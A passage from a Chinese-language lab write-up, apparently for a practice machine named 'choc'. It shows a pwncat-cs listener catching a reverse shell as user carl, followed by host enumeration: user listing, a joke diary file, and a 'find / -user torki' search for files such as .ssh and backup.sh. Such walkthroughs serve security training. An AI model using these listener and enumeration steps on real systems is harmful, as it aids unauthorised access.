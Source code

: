 ## User - carl

```shell
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[13:19:31] Welcome to pwncat 🐈!
[13:21:21] received connection from 192.168.56.122:50414
[13:21:21] 0.0.0.0:9999: normalizing shell path
[13:21:22] 192.168.56.122:50414: registered new host w/ db
(local) pwncat$ back
(remote) carl@choc:/home/carl$ whoami
carl
```

### 环境探测

根据 `/home` 目录下的结构，可以得知有三个用户

```plaintext
carl
sarah
torki
```

并且探测到一个文件

```plaintext title="/home/torki/secret_garden/diary.txt"
April 18th 2021
Last night I dreamed that I was at the beach with scarlett johansson, worst wake up call of my life!

September 12th 2309
I invented a time machine.The world is still crazy, territorial and proud !!

A day in -4.5000000000
The human doesn't exist yet and that's fucking great!!! but I'm a little bored...
```

同时尝试探测有哪些文件的所有者是 `torki`

```shell title="find / -user torki 2>/dev/null"
/home/torki
/home/torki/.profile
/home/torki/.selected_editor
/home/torki/secret_garden
/home/torki/secret_garden/diary.txt
/home/torki/.bash_logout
/home/torki/.bashrc
/home/torki/.gnupg
/home/torki/.local
/home/torki/.local/share
/home/torki/.ssh
/home/torki/backup.sh
/tmp/backup_home.tgz
```
